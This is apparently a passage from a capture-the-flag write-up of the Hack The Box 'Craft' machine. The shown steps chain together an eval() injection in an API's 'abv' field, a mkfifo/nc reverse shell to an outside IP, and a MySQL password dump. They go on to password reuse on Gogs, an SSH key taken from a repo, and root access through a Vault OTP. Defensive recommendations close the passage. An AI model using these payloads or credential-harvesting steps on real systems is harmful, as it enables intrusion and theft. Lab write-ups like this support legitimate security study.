  -d '{"name":"bogus","brewer":"bogus","style":"bogus","abv":"15.0"}'
# "ABV must be a decimal value less than 1.0"
```



Because `%s` is substituted into an `eval()` expression, a Python payload in `abv` executes on the server. Start a listener, then POST a reverse shell (example uses a FIFO + `nc` to the VPN IP):

```bash
rlwrap nc -lvnp 4444

curl -k -X POST 'https://api.craft.htb/api/brew/' \
  -H "X-Craft-API-Token: $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"name":"x","brewer":"x","style":"x","abv":"__import__('\''os'\'').system('\''rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.14 4444 >/tmp/f'\'')"}'
```

The callback lands as `root` inside the app container (`/opt/app`, `eth0` = `172.20.0.6/16`, `/.dockerenv` present) — not on the HTB host itself.



---
### 3.3 Container → MySQL user dump

`dbtest.py` shows how the app connects via `craft_api.settings`. `settings.py` hardcodes MySQL credentials and host `db`:

```text
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J750'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
```




Dump the `user` table with `pymysql` from the container:

```python
from craft_api import settings
import pymysql
conn = pymysql.connect(
    host=settings.MYSQL_DATABASE_HOST,
    user=settings.MYSQL_DATABASE_USER,
    password=settings.MYSQL_DATABASE_PASSWORD,
    db=settings.MYSQL_DATABASE_DB,
    cursorclass=pymysql.cursors.DictCursor,
)
with conn.cursor() as cur:
    cur.execute('SELECT * FROM user')
    for row in cur.fetchall():
        print(row)
```



**Recovered (non-admin):**

| User | Password |
|---|---|
| dinesh | `4aUh0A8PbVJxgd` |
| ebachman | `lLJ77D8QFkLPQB` |
| gilfoyle | `ZEU3N8WNM2rh4T` |

---
## 4. Privilege Escalation

### 4.1 Gogs as Gilfoyle → `craft-infra` SSH key

Reuse Gilfoyle’s DB password on Gogs. The private repo `gilfoyle/craft-infra` contains infrastructure configs, including `.ssh/`.




Download the repo zip and extract the SSH keypair:

```bash
unzip craft-infra-master.zip
cd craft-infra/.ssh
ls -la   # id_rsa, id_rsa.pub
chmod 600 id_rsa
```



---
### 4.2 SSH as `gilfoyle` (user flag)

SSH to the host with the private key. The key passphrase is Gilfoyle’s password from MySQL:

```bash
ssh -i id_rsa gilfoyle@10.129.66.210
# passphrase: ZEU3N8WNM2rh4T

whoami
id
cat user.txt
```



🏁 **User flag obtained** (`user.txt`)

---
### 4.3 Vault root token → SSH OTP as root

Gilfoyle’s home contains `.vault-token`. Vault CLI is installed (`Vault v1.0.2`). Token lookup shows a **root** policy; secrets include an `ssh/` engine with role `root_otp` (`key_type=otp`, `default_user=root`).

```bash
cat ~/.vault-token
vault --version
vault token lookup
vault secrets list
vault list ssh/roles
vault read ssh/roles/root_otp
```





Generate an OTP and SSH as root:

```bash
vault ssh -role root_otp -mode otp root@10.129.66.210
# enter the printed OTP as the SSH password

whoami
cat /root/root.txt
```



🏁 **Root flag obtained** (`root.txt`)

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate HTTPS + Gogs; download `craft-api` and recover `dinesh` API credentials from git history.
2. Obtain a fresh JWT via `/api/auth/login`; confirm ABV validation uses `eval()`.
3. Inject OS command execution through `abv` → reverse shell in the API Docker container.
4. Read MySQL settings and dump `user` passwords; login to Gogs as `gilfoyle`.
5. From private `craft-infra`, use SSH key (+ DB password as passphrase) for host access and user flag.
6. Use `.vault-token` / Vault SSH OTP role to authenticate as `root` and read the root flag.

---
## Defensive Recommendations

- Never use `eval()` (or equivalent) on user-controlled input; parse ABV as a typed float with strict bounds.
- Do not commit credentials or private keys to git; rotate anything that ever appeared in history.
- Keep JWT/auth tokens short-lived and avoid posting them in public issue trackers.
- Restrict container-to-DB credentials to least privilege; avoid storing reusable human passwords in application databases.
- Protect Vault root tokens; prefer short-lived, scoped policies instead of root tokens in user home directories.
- Treat infrastructure repos as sensitive: encrypt SSH keys at rest and never store usable private keys in VCS without additional controls.
